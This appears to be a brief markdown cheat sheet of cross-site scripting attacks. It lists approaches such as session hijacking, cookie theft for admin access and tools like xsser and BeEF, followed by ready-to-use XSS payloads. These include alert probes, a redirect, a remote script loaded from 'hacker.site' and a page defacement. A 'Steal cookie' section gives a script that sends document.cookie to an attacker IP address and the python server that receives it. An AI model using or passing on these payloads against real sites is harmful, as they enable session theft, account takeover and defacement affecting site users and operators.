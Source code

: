 - Session hijacking / Cookie theft. Steal cookie to get admin privilege
- use xsser tool
- Using BEEF
- Enumeration user input box
- PHP XREF for php XXS
## Injections
	<h1> HI </h1>
	
	<plaintext>
 
	<script>alert('this is an XSS');</script>
	<script>alert(document.cookie);</script>
	<script>prompt('this is an XSS');</script>

	<img src=x onerror="prompt('XSS')">
	<img src=x onerror="window.location.href='https://google.com'">
	
	" onload="javascript:alert('XSS Example')
	" onload="alert('XSS Example')
	" onload="alert(String.fromCharCode(88,83,83)
	
	<svg/onload="alert('1')">
	"><svg/onload="alert(document.domain)">
	"><svg/onload="var s = document.createElement(SCRIPT);s.src = 'http://hacker.site/alert.js';document.body.appendChild(s);">
	
	document.body.innerHTML="<h1>Defaced</h1>";

## Steal cookie
	1. <script>var i=new Image;i.src="http://10.8.79.239:8000/?"+document.cookie;</script>
	2. python3 -m http.server